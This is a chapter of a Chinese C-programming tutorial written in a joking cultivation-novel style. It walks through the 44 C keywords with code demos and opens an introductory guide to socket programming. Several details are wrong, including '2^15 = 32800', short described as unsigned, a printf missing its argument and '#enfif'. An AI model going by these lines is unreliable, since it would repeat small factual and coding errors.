




# 第7章-真气-遗失的网络IO

        华山派除了练气的华山剑法, 还曾有一本被遗忘的神功, 紫霞神功. 也许正是靠它, 当年
    气宗整体压过剑宗. 后期随着气宗能够修习紫霞真气的资格越来越高, 导致气宗衰败. 紫霞神功
    也在江湖中失传. 同样编程中也有个遗失的学习领域, 网络开发. 学习成本陡峭, 开发成本高, 
    阻挡了一批又一批想操手服务器网络开发的生源. 好在江湖中有不少巅峰的网络库吼住了互联网
    的基石. 导致重新搭建网络轮子价值变低. 但如果想飞的更高, 或许 ~ 此刻不妨随我翻开远古
    大能们遗留(抄袭)的书章, 感受下那些年可以吹的 NB. 友情提示, 本书写到这, 可以发现非常
    注重实战技巧, 忽略缘由. 因为授之以渔, 你还要有欲望, 才能驱动. 倒不如授之以臭鳜鱼, 
    说不定还能爽一口. 
        文末极有可能, 分享江湖中一个化神前辈的元婴功法, 网络 IO poll 模型. 全章流程迂
    回递进, 需要反复回溯, 必有豁然开朗醍醐灌顶. 修真, 修炼, 一个不可说的秘密就是, 时间
    有了就拥有了全世界. 例如 <<无尽剑装>> 小说主角结局无不是靠寿元兑磨求道 ~
        不妨扯一下以前修炼的经验, 当初刚做开发时候. 公司朴实的前辈说, 搞个 TCP 估计 1 
    年就过去了. 后来想想还真是, 虽然到现在还是水经验. 但有一点可以确定, 编程, 修炼并不是
    一个青春饭. 很需要底蕴和积累. 投机倒把很难干成一件需要长时间心力体力投入的事情. 大佬
    赠我越努力越幸运. 也有个小确幸送给修真路上的道友们. 当有一天, 打游戏了累了, 刚好没对
    象. 那就打开笔记本, 秀出你的神之一技吧 ~ 山中不知岁月, 一切刚刚开始 ~

## 7.1 回忆哈 C, 那些年筑过的基

        C 语言老了, 目前而言语言中有 32 + 5 + 7 = 44 个关键字. 具体如下 O(∩_∩)O 哈.

C89 版本关键字

|          |           |          |          |
| -------- | --------- | -------- | -------- |
| char 	   | short     | int      | unsigned |
| long 	   | float     | double   | struct   |
| union    | void      | enum     | signed   |
| const    | volatile  | typedef  | auto     |
| register | static    | extern   | break    |
| case     | continue  | default  | do       |
| else     | for       | goto     | if       |
| return   | switch    | while    | sizeof   |

C99 新增关键字

|       |          |            |        |          |
| ----- | -------- | ---------- | ------ | -------- |
| _Bool | _Complex | _Imaginary | inline | restrict |

C11 新增关键字

|           |                |               |          |
| --------  | --------       | -------       | -------- |
| _Alignas  | _Alignof       | _Atomic       | _Generic |
| _Noreturn | _Static_assert | _Thread_local |          |


    随后会细细分析其具体用法, 每个平台的实现会有些差别. C11 最强, C89 最稳. 主要目的是通
    过回忆中, 让大家记起远古的信仰.

### 7.1.1 C89 32 个关键字

    1' char
    解释 :
        声明变量的时候用! 
        char 多数占 1 字节, 8bit. 多数系统(cl or gcc)上是有符号的(arm 无符号), 范围是
        [-128, 127]. 在工程项目开发中推荐用 int8_t 和 uint8_t.

```C
#include <stdint.h>
#include <stddef.h>

int8_t   -> signed char 
uint8_t  -> unsigned char
```  

        扯淡一点, 程序开发最常遇到的就是自解释问题. 鸡生蛋, 蛋生鸡. 后面再分析 signed 
        和 unsigned.     
    演示 :

```C
#include <stdio.h>

char c = getchar();
rewind(stdin);
printf("c = %d, c = %c.\n", c);
```

    2' short
    解释 :
        声明变量的时候用! 
        short 多数占 2 字节, 为无符号的. 默认自带 signed. 范围 [-2^15, 2^15 - 1] 2^15 
        = 32800. 推荐使用 int16_t or uint16_t 类型. 
    演示 :

```C
short port = 8080;
printf("port = %d.\n", port);
```

    3' int
    解释 :
        声明变量的时候用! 
        int 声明的变量, 多数占 4 字节, 有符号. 范围 [-2^31, 2^31 - 1]. 推荐用 int32_t 和
        uint32_t 类型开发. 方便移植.
    演示 :

```C
int hoge = 24;
printf("hoge = %d.\n", hoge);
```

    4' unsigned
    解释 :
        变量类型修饰符! 
        被修饰的变量就是无符号的. 范围 >= 0.  unsigned 只能修饰整型的变量. 当然当你用这个
        修饰变量的时候. 再使用 - 和 -- 运算的时候一定要小心.
    演示 :

```C
unsigned int i = 0;         // 正确
unsigned short s = 0;       // 正确
unisgned float f = 0.11f;   // 错误
```

    5' long
    解释 :
        声明变量的时候用!
        long 长整型 x86 上四字节, x64 有的平台是八字节. 一定不比 int 字节数少. C99 之后出
        现 long long 类型 8 字节.
    演示 :

```C
long l = 4;
long long ll = l;
printf("l = %ld, ll = %lld.\n", l, ll);
```

    6' float
    解释 :
        声明变量的时候用! 
        4 字节. 精度是 6-7 位左右. 详细精度可以查资料 float 与 double 的范围和精度.
    演示 :

```C
float f = -0.12f;        // 四字节
long float lf = 0;       // 八字节 等同于 double, 不推荐这么写
```

    7' double
    解释 :
        声明变量的时候用!
        八字节, 精度在 15-16 位左右. 有的时候压缩内存用 float 代替.
    演示 :

```C
double d = 2e13;               // 8 字节
long double ld = -0.99;        // x86 也是 8 字节, 不推荐这么用
long long double lld = 99;     // 写法错误, 不支持
```

    8' struct
    解释 :
        定义结构体, 这个关键字用法广泛, 是大头!
        C 的重要思路就是面向过程编程. 撑起面向过程的大头就是结构体. struct 就是定义结构
        的东西, 可以看看下面演示.
    演示 :

```C
// node 普通结构体定义
struct node {
    struct node * next;
    int id;  
};

struct node node = { .id = 1 };

// 匿名结构定义
struct {
   int id;
   char * name;   
} per = { 2, "王志" };
```

    9' union
    解释 :
        定义公用体, 用法很花哨! 常在特殊库函数封装中用到. 技巧性强.
    演示 :

```C
// 普通定义
union type {
    int i;
    char c;
    float f;
};

union type t = { .f = 3.33f };

// 匿名定义
union { ... } t = { .... };
    
// 类型匿名定义
struct json {
    struct json * next;
    struct json * chid;
    unsigned char type;
    char * key;
    union {
        char * vs;
        double vd;
    };
};
```

    再来一种 union 用法, 利用内存对齐得到机器的大小端. 其实有的编译器也有宏辅助判断大小
    端情况.

```C
// isbig 判断是大端序还是小端序, 大端序返回 true
inline bool isbig(void) {
    static union {
        unsigned short s;
        unsigned char c;
    } u = { 1 };
    return u.c == 0;
}
```

    还是很久很久以前利用 union 实现内存字节对齐, 那时候好兴奋, 太多了. 这个关键字用法, 
    很多, 很意外.

    10' void
    解释 :
        这个是空关键字. 用法很多! 
        也是我最喜欢的关键字. 用在函数声明中, 类型定义中.
    演示 :

```C
// 函数声明
extern void foo();

// 函数参数约束
extern void foo(void);   // () 中加了 void 表示函数是无参的, 否则是任意的

// 万能类型定义, 指针随便转
void * arg = NULL;
```

    11' enum
    解释 :
        枚举类型, C 中枚举类型很简陋! 
        其实就相当于一种变相的 INT 宏常量. 估计这也许也是 INT 宏常量和枚举并存的原因.
    演示 :

```C
// flag_e - 函数状态枚举
enum flag {
    SuccessBase     = +0,       // 结果正常
    ErrorBase       = -1,       // 错误基类型
};

typedef enum flag flag_e;
```

    枚举变量完全可以等同于 int 变量使用, 枚举值等同于宏 INT 常量使用. 枚举的默认值是以 0
    开始, 1 为默认单位从上向下递加.

    12' signed
    解释 :
        变量声明类型修饰符. 有符号型!
        对比 unsigned 无符号型. 变量声明默认基本都是 signed, 所以绝大多数情况就省略了.
    演示 :

```C
signed int piyo = 0x1314520;
signed char * str = u8"你好吗";
```

    当然了, 平时不需要刻意加. 会让人嫌麻烦. O(∩_∩)O 哈哈 ~

    13' const
    解释 :
        const 修饰的变量表示是个不可修改的量!
        和常量有点区别. 可以简单认为 const type val 是个只读类型变量的.
    演示 :

```C
// 声明不可修改的量
const int age = 24;

// 修饰指针
const int * pi = NULL;         // *pi 不能修改指向变量
int * const pt = NULL;         // pt 不能指向新的指针 
const int * const pc = NULL;   // *pc 和 pc 都不能动
```

    其实在 c 中基本没有什么改变不了的. 全是内存来回搞, 软件不行硬件 ~~

    14' volatile
    解释 :
        声明变量修饰符, 可变的!
        当变量前面有这个修饰符. 编译器不再从寄存器中取值, 直接内存读取写入. 保证实时性. 
        常用在多线程代码中.
    演示 :

```C
// srl 具体轮询器
struct srl {
    mq_t mq;                 // 消息队列
    pthread_t id;            // 具体奔跑的线程
    die_f run;               // 每个消息都会调用 run(pop())
    volatile bool loop;      // true表示还在继续 
};
```

    以后使用 srl::loop 的时候被其它线程修改, 当前线程也希望正确获取它的值.

    15' typedef
    解释 :
        类型重定义修饰符, 重新定义新的类型!
    演示 :

```C
// 声明普通类型
typedef void * list_t;

// 声明不完全类型, 头文件中不存在struct tree
typedef struct tree * tree_t;
```

    16' auto
    解释 :
        变量类型声明符!
        auto 变量存放在动态存储区，随着生存周期结束而立即释放. 存放在栈上. 默认变量都是 
        auto 的. 基本都是不写, 除非装逼!
    演示 :

```C
{
    // 生存期开始
    int hoge = 0;
    auto int piyo = 1;
    // 生存期结束
}
```

    17' register
    解释 :
        变量修饰符! 只能修饰整形变量. 表示希望这个变量存放在 CPU 的寄存器上. 现代编译器在
        开启优化时候, 能够一定程度上默认启用 register 寄存器变量.
    演示 :

```C
#include <limits.h>

register int i = 0;
while (i < INT_MAX) {
   ++i;
}
```

    由于 CPU 寄存器是有限的, 有时候哪怕声明的寄存器变量也可能只是普通变量. 
    printf("&i = %p\n", &i) 这种用法是非法. 语义层面寄存器变量没有地址.


    18' static
    解释 :
        static 用法很广泛, 修饰变量! 表示变量存在于静态区, 基本就是全局区. 生存周期同系统
        生存周期. static 修饰的变量作用域只能在当前文件范围内. 可以看成上层语言的 private
        . 除了auto 就是 static. static 修饰函数表示当前函数是私有的, 只能在当前文件中使
        用. 更加详细的看演示部分.
    演示 :

```C
// 修饰全局变量, 只对当前文件可见
static int fd = 0;

// 修饰局部变量, 存储在全局区, 具有记忆功能
{
    static int cnt = 0;
}

// 修饰函数, 函数只能在当前文件可见
static void * run(void * arg) {
   ......
   return arg;
}

//
// C99 之后加的 static 新用法, 方便编译器优化.
// static 只能修饰函数第一维, 表示传入的数组最小长度. 希望一定不为 NULL.
//
int sum(int a[static 10]) { ... }
```

    19' extern
    解释 :
        extern 关键字表示声明, 变量声明, 函数声明! 奇葩的用法很多.
    演示 :

```C
// g_cnt 声明引用全局变量
extern int g_cnt;

// kill 声明引用全局函数
extern int kill(int sig, int val);
```

    有时候 extern 不写, 对于变量可能会出现重定义. 但对于函数是可以缺省写法. 再扯一点

```C
// extern 主动声明, 希望外部可以调用
extern int kill(int sig, int val);

// extern 缺省,不推荐外部调用
int kill(int sig, int val);
```

    20' break
    解释 :
        结束语句!
        主要用于循环的跳转, 只能跳转到当前层级. 也用于 switch 语句中, 跳出 switch 嵌
        套.
    演示 :

```C
for(;;) {
   // 符合条件跳转
   if(six == 6)    
       break;
}

// break 跳出 while 循环
int i = 0;
while(i < 6) {
   if(i == 3)
      break;
} 
```

    break 用法主要和循环一块使用, 还有 do while. 但只能跳转当前层循环. 

    21' case
    解释 :
        switch 语句中分支语句, 确定走什么分支!
    演示 :

```C
// case 普通用法 和 break成对出现
switch ((c = *++ptr)) {
case 'b': *nptr++ = '\b'; break;
case 'f': *nptr++ = '\f'; break;
case 'n': *nptr++ = '\n'; break;
case 'r': *nptr++ = '\r'; break;
case 't': *nptr++ = '\t'; break;
}
```

    对于case相当于标记点. switch 中值决定 case 跳转到哪里. 再一直往下执行, 遇到 
    break 再结束 switch 嵌套.

    22) continue
    解释 :
        跳过此次循环!
        直接进行条件判断操作. for 和 while 有些区别. for 会执行第三个后面的语句.
    演示 :

```C
// for 循环 continue
for(int i = 0; i < 20; ++i) {
    if(i % 2 == 0)
        continue;
    // 上面 continue 跳到 ++i -> i < 20 代码块
}
```

    23' default
    解释 :
        switch 分支的默认分支!
        假如 case 都没有进入, 那就进入 default 分支. default 可以省略 break. c 
        语法中可行.
    演示 :

```C
uint32_t 
skynet_queryname(struct skynet_context * context, const char * name) {
    switch(name[0]) {
    case ':':
        return strtoul(name+1,NULL,16);
    case '.':
        return skynet_handle_findname(name + 1);
    default:
        skynet_error(context, "Don't support query global name %s",name); 
    }
    return 0;
}
```

    24' do
    解释 :
        do 循环!
        先执行循环体, 后再执行条件判断.
    演示 :

```C
register i = 0;
do {
    if(i % 2 == 0) 
        continue;
    printf("i = %d.\n", i);   
} while(++i < 10);
```

    do while 循环有时候可以减少一次条件判断. 性能更好, 代码更长.

    25' else
    解释 :
        else 是 if 的条件非分支! 具体看演示.
    演示 :

```C
#include <stdbool.h>

if (true) {
   puts("你好吗?");
} else {
  puts("我们分手吧.");
}

// 附赠个 else 语法
#  if defined (__GNUC__)
// 定义了 __GNUC__ 环境, 就是 GCC 环境
#  else
#    error "NOT __GNUC__, NEED GCC!";
#  enfif
```

    26' for
    解释 :
        for 循环其实就是 while 循环的语法糖, 也有独到的地方! 
    演示 :

```C
for(int i = 0; i < 2; ++i) {
    if(i == 1)
        continue;
    
    if(i == 2)
        break;
}

// 等价于下面这个
int i = 0;
while(i < 2) {
  if(i == 1) {
     ++i;
     continue;
  }

  if(i == 2)
     break;  
    
  ++i;
}

// for 最好的写法, 对于死循环写法
for(;;) {
   // xxx
}
```

    for(;;) {  } 比 while(true) { } 写法好. 表达不走判断的意图, 虽然汇编代码是一样的.

    27' goto
    解释 :
        goto 可以在当前函数内跳转!
        goto 可以替代所有循环. goto 在复杂业务中会尝试用到, 切记不要麻木的用!
    演示 :

```C
loop_continue:
// xxx 死循环用法
if (false)
    goto loop_break;
goto loop_continue;
loop_break:
```

    还有就是在工程开发中, goto 常用于非常复杂的业务逻辑.

```C
    // 继续判断,只有是 c == '"' 才会继续, 否则都是异常
    if (c != '"') 
        goto err_faid; 

    // 检查, 行列个数是否正常
    if (rnt == 0 || cnt % rnt) {
err_faid:
        RETURN(-1, "csv parse error %d, %d, %d.", c, rnt, cnt);
    }
```

    28' if
    解释 :
        if 分支语句! 
        用法太多了. 程序语句中分支就是智能.
    演示 :

```C
if (false) {
   puts("想做个好人!");
}
```

    29' return
    解释 :
        程序返回语句太多了, 用于函数返回中!
        单纯的只返回 void 可以直接 return;
    演示 :

```C
#include <stdlib.h>

int main(int argc, char * argv[]) {
   return EXIT_SUCCESS;
}
```

    30' switch
    解释 :
        条件分支语句!
        很复杂的 if else if 时候, 特定情况可以转为更高效的 switch 分支语句.
    演示 :

```C
#include <unistd.h>

do {
    int ret = write(fd, buf, sizeof buf)
    if (ret < 0) {
       switch (errno) {
       case EINTER
           continue;
       default:
           perror("write error");
       }
    }
} while(ret > 0);
```

    31' while
    解释 :
        循环语句!
        有do while 和 while 语句两种.
    演示 :

```C
#define CNTT_INT (10)

int i = -1;
while(++i < CNTT_INT) {
    // ...... 
}
```

    32' sizeof
    解释 :
        也称为 sizeof 运算符, 计算变量或类型的字节大小, 这个关键字特别好用! sizeof 在
        C89 时代是编译时确定, 但随着 C99 引入 VLA, sizeof 有时候也得运行时确定值.
    演示 :
```C
sizeof (main)   -> x86 上四字节

// LEN 获取数组长度
#define LEN(arr) (sizeof(arr) / sizeof(*(arr)))

// C99 VLA sizeof 用法
int n = 0xC99;
int a[n];
printf("sizeof a = %zu.\n", sizeof a);
```

    到这里 C89 保留的关键字基本解释完毕. 走马观花的理解理解, 希望能够勾起你心里的小妖精.

### 7.1.2 C99 5 个新增关键字

    33' _Bool
    解释 :
        bool 类型变量!
        等价于 unsigned char 只有 0 和 1.
    演示 :

```C
#ifndef _STDBOOL
#define _STDBOOL

#define __bool_true_false_are_defined	1

#ifndef __cplusplus

#define bool	_Bool
#define false	0
#define true	1

#endif /* __cplusplus */

#endif /* _STDBOOL */
```

    34' _Complex
    解释 :
        数学中复数类型!
        对于 C99 标准定义, 存在 float _Complex, double _Complex, long double _Complex 
        复数类型. 下面先演示 GCC 中关于复数的用法.
    演示 :

```C
#include <math.h>
#include <stdio.h>
#include <complex.h>

//
// 测试 C99 complex 复数
//
int main(int argc, char * argv[]) {
    float complex f = -1.0f + 1.0if;
    printf("The complex number is: %f + %fi\n", crealf(f), cimagf(f));
    
    double complex d = csqrt(4.0 + 4.0i);
    printf("d = %lf + %lfi\n", creal(d), cimag(d));

    return 0;
}
```

    其实在复数类型中, GCC 标准实现

```C
#define complex     _Complex
```

    而 CL 中只有模拟实现, 没有实现标准定义的要求.

```C
#ifndef _C_COMPLEX_T
    #define _C_COMPLEX_T
    typedef struct _C_double_complex
    {
        double _Val[2];
    } _C_double_complex;

    typedef struct _C_float_complex
    {
        float _Val[2];
    } _C_float_complex;

    typedef struct _C_ldouble_complex
    {
        long double _Val[2];
    } _C_ldouble_complex;
#endif

typedef _C_double_complex  _Dcomplex;
typedef _C_float_complex   _Fcomplex;
typedef _C_ldouble_complex _Lcomplex;
```

    总的说, 学习 C 最好的平台就是 *nix 平台上使用 Best new GCC. 除了科学计算会用到复数
    , 其它地方很少用到. 这里 VS 和 GCC 实现理念不一样. 用起来需要注意. 总有一天你会全身
    心进入开源的怀抱 ~

    35' _Imaginary
    解释 :
        虚数类型, _Complex 复数类型的虚部!
        例如 10.0i, 10.8if 等等. 这个关键字在当前的 CL 上没有实现. 个人也觉得没有必要
        . 同 _Complex 有重叠.
    演示 :

```C
/* 这个关键字无法在代码中表示. 系统保留, 我们不能使用. */
```

    36'  inline
    解释 :
        内联函数定义符号!
        从 C++ 中引入的概念. 就是将小函数直接嵌入到代码中. C 的代码损耗在于函数的进出栈
        . 要是可以推荐用内联函数替代宏. 宏能不用就不用. 新标准是希望 static inline 替
        代宏. 但不同平台语义实现不一致, 用起来可以随环境而定.
    演示 :

```C
// json_new - 构造 json 对象
inline json_t json_new(void) {
    return calloc(1, sizeof(struct json));
}

// socket_set_block     - 设置套接字是阻塞
inline static int socket_set_block(socket_t s) {
    int mode = fcntl(s, F_GETFL, 0);
    return fcntl(s, F_SETFL, mode & ~O_NONBLOCK);
}
```

    37' restrict
    解释 :
        指针修饰符!
        这是很装逼的关键字用于编译器优化. 关键字 restrict 只用于限定指针 该关键字用于
        告知编译器, 所有修改该指针所指向内容的操作全部都是基于该指针的, 即不存在其它进
        行修改操作的途径. 这样的后果是帮助编译器进行更好的代码优化, 生成更有效率的汇编
        代码.
    演示 :

```C
extern void * mempcpy (void *__restrict __dest,
                       const void *__restrict __src, 
                       size_t __n) __THROW __nonnull ((1, 2));
```

    上面是摘自 GCC 的 string.h 中. 正式用法

```C
// 简单演示用法, GCC 和 VS 都是 __restrict 推荐加在 * 后面
static inline void strlove(char * __restrict dest) {
    *dest = '\0';
}
```

    Pelles C 编译器也可以完整支持 restrict, 可惜非商业力量不足, 后继无力, 不太好用.

### 7.1.3 C11 7个新增关键字

    38' _Alignas
    解释 :
        内存对齐的操作符!
        需要和 _Alignof 配合使用, 指定结构的对齐方式.
    演示 :

```C
#ifndef __cplusplus

#define alignas _Alignas
#define alignof _Alignof

#define __alignas_is_defined 1
#define __alignof_is_defined 1

#endif
```

    例如一种演示用法

```C
#include <stdio.h>
#include <stdalign.h>

struct per {
    int age;
    char sex;
    double sec;
};

int main(int argc, char * argv[]) {
    char temp[128];
    alignas(struct per) struct per * per = (struct per *)temp;
    printf("per = %p, c = %p.\n", per, c); 

    return 0;
}
```

    将 temp 数组以 struct per 对齐方式对齐构造赋值. 同 placement new.

    39' _Alignof
    解释 :
        返回由类型标识所指定的类型的任何实例所要求的按字节算的对齐!
        该类型可以为完整类型, 数组类型或者引用类型. 当类型为引用类型时, 该运算符返回被
        引用类型的对齐. 当类型为数组类型时, 返回其元素类型的对齐要求.
    演示 :

```C
// return size_t , 对齐方式是 8 字节, 值为 8
printf("alignof(struct per) = %zu.\n", alignof(struct per));
```

    40' _Atomic
    解释 :
        原子操作, 原子锁! 
        目前 GCC 上面支持, CL 支持不友好. 如果编译器都支持那么以后原子操作更加方便高效
        . 详细用法需要查阅相关手册, 无外乎怎么初始化, 设置, 加载等等 ~

    演示 :

```C
#include <stdio.h>
#include <stdatomic.h>

int main(int argc, char * argv[]) {
    // 全局初始化 hoge 和 局部初始化 atomic_init(&hoge, 100)
    _Atomic int hoge = ATOMIC_VAR_INIT(100);
    // 将 hoge值返回给 piyo
    int piyo = atomic_load(&hoge);  
    printf("piyo = %d.\n", piyo);
    piyo += 2;
    // 将 piyo 值重新给 原子变量 hoge 中
    atomic_store(&hoge, piyo);
    printf("hoge = %d.\n", hoge);

    return 0;
}
```

    具体的执行结果, 你也懂就那样. 原子操作, 对于写出高效代码很重要. 可惜微软太硬, 更加详
    细可以参阅前面的 atom.h 设计脉络. 有机会下次写书来个全本 Linux 昆仑决 ~ 去掉 CL 体系
    构建.

    41' _Generic
    解释 :
        这个比较叼, C 的泛函机制. 高级函数宏. 下面来个老套路用法!
    演示 :

```C
#include <math.h>
#include <stdio.h>
#include <stdlib.h>

#define abs(x)                                          \
_Generic((x), int:abs, float:fabsf, double:fabs)(x)

//
// 测试 C11 _Generic 语法
//
int main(int argc, char * argv[]) {
    int a = 1, b = 2, c = 3;

    _Generic(a + 0.1f, int:b, float:c, default:a)++;
    printf("a = %d, b = %d, c = %d\n", a, b, c); 

    printf("int abs: %d\n", abs(-12));
    printf("float abs: %f\n", abs(-12.04f));
    printf("double abs: %f\n", abs(-13.09876));

    return EXIT_SUCCESS;
}
```

    宏泛型真的很给力. 如果全平台支持的话, 宏又能玩上天了.

    42' _Noreturn
    解释 :
        修饰函数, 绝对不会有返回值!
        _Noreturn 声明的函数不会返回. 引入此新的函数修饰符为了消除编译器对没有 return 
        的函数的警告, 还有允许某些只针对不返回函数的优化.
    演示 :

```C
_Noreturn void suicide(void) {
    abort(); // Actually, abort is _Noreturn as well
}
```

    再扯一点, 等同于 GCC 中 __attribute__((__noreturn__)), 在 CL 中相似功能是 
    __declspec(noreturn). 它不是说函数没有返回值, 而是说一旦你调了这个函数, 它存在永远
    不会返回的情况. 一些函数是永远不会返回的, 比如 abort 或者 exit 之类, 调用它们就意味
    着结束程序. 所以编译器再给出 warning 就显得没有必要.

    43' _Static_assert
    解释 :
        编译期间断言符!
        当 #if #error 搞完毕(预编译)之后, 编译器断言. assert 是运行时断言. 
        _Static_assert 是编译期断言. 想用的时候看具体的需求.
    演示 :

```C
// Guess I don't really need _Static_assert to tell me this :-(
_Static_assert(__STDC_VERSION__ >= 201112L, "C11 support required");
```

    44' _Thread_local
    解释 :
        到这里快扯完了, 其实 C11 标准是个很好的尝试. 为 C 引入了线程和原子操作. 各种安
        全特性补充. 可以说它让 C 强大了, 但也有悲催, 例如越来越丑了, 有些编译器不买账.
        C11 为 C 引入了线程在头文件 threads.h 中定义. 一如既往也允许编译可以不实现. 
        _Thread_local 是新的存储类修饰符, 限定了变量不能在多线程之间共享.
    演示 :

```C
// Thread local isn't local!
_Thread_local static int i;
```

    语义上就是线程的私有变量. 在 POSIX 标准 pthread 实现中采用如下设计

```C
/*
 * Thread Specific Data Functions
 */
extern int __cdecl pthread_key_create (pthread_key_t * key, 
                                       void (__cdecl * destructor) (void *));
extern int __cdecl pthread_key_delete (pthread_key_t key);
extern int __cdecl pthread_setspecific (pthread_key_t key, const void * value);
extern void * __cdecl pthread_getspecific (pthread_key_t key);
```

    pthread_key_create 创建私有变量, 且需要注册销毁行为. 随后是删除, 设置, 获取操作.
    从实现而言, 线程私有变量其实是通过公有变量模拟映射的. 开发中推荐少用线程私有变量, 
    有数量限制. 到这里关于 C 修炼的筑基期, 语法层面的回顾就完毕了. 不知不觉新的呼喊已
    经到来, 期待笑和痛, 收拾行囊 ~ 出发

***

    游子吟
    孟郊(唐代)

    慈母手中线, 游子身上衣.
    临行密密缝, 意恐迟迟归.
    谁言寸草心, 报得三春晖.


***

## 7.2 C 语言 SOCKET 编程指南

        有了 C 基础语法支持, 随我一举破筑基, 拿下常见 socket api 基础操作. 网络编程基
    础知识, 可以说是成为高级大头兵一个卡. 很久以前整理过一个学习手册, 抄袭的年代久远. 
    借花献佛随我温故那些必备 socket 相关知识. 协助同道气结金丹, 安身立命 ~

### 7.2.1 一切刚刚开始

    socket 编程让你沮丧吗? 从 man pages 中很难得到有用的信息吗? 你想跟上时代去编写 
    Internet 相关的程序, 但是为你在调用 connect() 前的 bind() 的结构而不知所措? 等等
    ......

    好在已经将这些事完成了, 这里将和所有人分享所知道的知识了(抄袭由头). 如果你了解 C 语
    言并想穿过网络编程的沼泽, 那么你来对地方了.

	这篇小章节是一个指南, 而不是新华词典. 如果你刚启蒙 socket 编程并想找一本入门书, 那么
    将是本篇的读者. 但这不是一本完全的 socket 编程书, 至少让你有所进展的希望. 当前文档中
    的大多数代码都在 CentOS and Ubuntu 平台上用 GNU best new GCC 编译测试过. socket 
    入门推荐从 linux 入手, winds socket 最终会在下一章节入场!

**什么是 socket ?**

    你经常听到人们谈论着 "socket", 或许你还不知道它的确切含义. 现在让我告诉你: 它是使用
    标准 linux 文件描述符(file descriptor)和其它程序通讯的方式. 什么? 你也许听到一些 
    linux hacker 这样说过: "呀，linux 中的一切就是文件!". 那个家伙也许正在说到一个事实:
    linux 程序在执行任何形式的 I/O 的时候, 程序是在读或者写一个文件描述符. 一个文件描述
    符只是一个和打开的文件相关联的整数值. 但是(注意后面的话), 这个文件可能是一个网络连接, 
    FIFO, 管道, 终端, 磁盘上的文件或者什么其它的东西. linux 中所有的东西就是文件! 所以, 
    你想和 Internet 上别的程序通讯的时候, 你将要使用到文件描述符. 你必须理解刚才的话. 现
    在你脑海中或许冒出这样的念头: "那么该从哪里得到网络通讯的文件描述符呢?", 这个问题无论
    如何都需要为你回答: 你利用系统调用 socket(), 它返回套接字描述符(socket descriptor)
    , 然后你再通过它来进行 send() 和 recv() 调用. "但是...", 你可能有很大的疑惑, "如果
    它是个文件描述符, 那么为什么不用一般调用 read() 和 write() 来进行套接字通讯?". 简单
    的答案是: "你可以使用!". 详细的答案是: "你可以，但是使用send() 和 recv() 让你更好的
    控制数据传输." 存在这样一个情况: 在我们的世界上, 有很多种套接字. 例如 DARPA Internet
    地址(Internet 套接字), 本地节点的路径名 (linux 套接字) ... 也许在你的 linux 机器上
    还有其它更多的. 我们在这里只讲第一种 Internet 套接字.

**Internet 套接字的两种类型**

    什么意思? 有两种类型的 Internet 套接字? 是的. 不, 我在撒谎. 其实还有很多, 但是我可不
    想吓着你. 我们这里只讲两种. 除了这些, 还有 "Raw Sockets" 也是非常强大的, 也值得查阅.

    那么这两种类型是什么呢? 一种是 "Stream Sockets(流格式)", 另外一种是 "Datagram 
    Sockets(数据包格式)". 我们以后谈到它们的时候也会用到 "SOCK_STREAM" 和 "SOCK_DGRAM"
    . 数据报套接字有时也叫"无连接套接字"(如果你确实要连接的时候可以用 connect()) 流式套接
    字是可靠的双向通讯的数据流. 如果你向套接字按顺序输出 "1,2", 那么它们将按顺序 "1,2" 到
    达另一边. 它们是无错误的传递的, 有自己的错误控制, 在此不详细讨论, 章节末会有所回忆.

    有什么在使用流式套接字? 你可能听说过 telnet, 不是吗? 它就使用流式套接字. 你需要你所输
    入的字符按顺序到达, 不是吗? 同样, WWW 浏览器使用的 HTTP 协议也使用它们来下载页面. 实际
    上, 当你通过端口 80 telnet 到一个 WWW 站点, 然后输入 "GET {pagename}" 的时候, 你也可
    以得到 HTML 的内容. 为什么流式套接字可以达到高质量的数据传输? 这是因为它使用了"传输控制
    协议(The Transmission Control Protocol)", 也叫"TCP". TCP 控制你的数据按顺序到达并且
    没有错误. 你也许听到"TCP" 是因为听到过 "TCP/IP". 这里的 IP 是指 "Internet 协议" 小部
    分. IP 只是处理 Internet 路由而已. 那么数据报套接字呢? 为什么它叫无连接呢? 为什么它是
    不可靠的呢?

    有这样的一些事实: 如果你发送一个数据报, 它可能会到达, 它可能次序颠倒了. 如果它到达, 那
    么在这个包的内部是无错误的. 数据报也使用 IP 作路由, 但是它不使用 TCP. 它使用"用户数据
    报协议 (User Datagram Protocol)", 也叫 "UDP". 为什么它们是无连接的呢? 主要是因为它并
    不象流式套接字那样维持一个连接. 你只要建立一个包, 构造一个有目标信息的 IP 头, 然后发出
    去. 无需连接, 它们通常使用于传输包信息. 简单的应用程序有: tftp, bootp 等等. 当然最新的
    HTTP/3 希望引入安全可靠的 UDP 协议来提升 Internet 性能.

    你也许会想: "假如数据丢失了这些程序如何正常工作?" 我的朋友, 每个程序在 UDP 上需要有自己
    加的额外的协议. 例如, tftp 协议每发出的一个被接受到包, 收到者必须发回一个包来说 "我收到
    了!" (一个"命令正确应答"也叫"ACK"包). 如果在一定时间内(例如 5 秒), 发送方没有收到应答, 
    它将重新发送, 直到得到 ACK. 这一 ACK 过程在实现 SOCK_DGRAM 应用程序的时候非常重要.

**网络理论**

